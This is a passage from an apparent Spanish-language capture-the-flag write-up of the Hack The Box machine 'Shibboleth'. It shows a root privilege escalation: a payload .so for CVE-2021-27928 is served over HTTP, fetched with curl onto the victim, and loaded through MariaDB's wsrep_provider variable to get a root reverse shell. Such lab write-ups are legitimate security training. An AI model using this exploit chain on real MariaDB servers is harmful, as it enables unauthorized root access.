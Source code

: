 3️⃣ **Transferimos el payload a la máquina.**

Levantamos ahora un servidor web con `Python` donde tengamos el payload:

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y en la máquina víctima hacemos una petición hacia ese servidor y el payload:

```bash
ipmi-svc@shibboleth:~$ cd /tmp/  # Entorno de trabajo
ipmi-svc@shibboleth:/tmp$ mkdir test; cd test
ipmi-svc@shibboleth:/tmp/test$
ipmi-svc@shibboleth:/tmp/test$ curl http://10.10.14.142:8000/CVE-2021-27928.so -o CVE-2021-27928.so
ipmi-svc@shibboleth:/tmp/test$ file CVE-2021-27928.so 
CVE-2021-27928.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, stripped
```

4️⃣ **Modificamos una de las variables para que contenga el objeto con nuestro payload.**

Y llega el momento de la verdad, juguemos con `mysql` para agregar el contenido en la variable:

```bash
ipmi-svc@shibboleth:/tmp/test$ mysql -u zabbix -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g
...
```

Y ahora la magia:

```bash
MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/test/CVE-2021-27928.so";
```

Obtenemos:

```bash
ERROR 2013 (HY000): Lost connection to MySQL server during query
```

PEEEEEEEEEEERO en nuestro listener:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shibboleth/410bash_rootRevSH_netcat_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

TENEMOS PETICIÓóÓóóóN! Y si intentamos ejecutar comandos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shibboleth/410bash_rootRevSH_id.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Somos **root** compita! Veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shibboleth/410flags.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Nospi :*

...
